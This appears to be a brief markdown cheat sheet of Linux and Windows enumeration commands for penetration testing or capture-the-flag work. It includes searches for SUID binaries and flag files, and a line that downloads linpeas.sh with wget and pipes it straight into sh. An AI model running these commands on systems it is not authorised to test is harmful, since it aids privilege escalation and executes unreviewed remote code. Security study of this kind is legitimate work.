 # Enumeration

## Links

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [GTFOBins](https://gtfobins.github.io)

## Find files

```sh
find / -type f -iname "root*" 2>/dev/null
```

## Find SUID binaries

```sh
find / -perm +6000 2>/dev/null | grep '/bin/'
```

## Find Group files

```sh
find / -type f -group GROUP 2>/dev/null
```

## Windows search file

```sh
Get-ChildItem -Path C:\ -Filter flag* -Recurse -ErrorAction SilentlyContinue -Force
```

## Linpeas wget

```sh
wget -qO- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
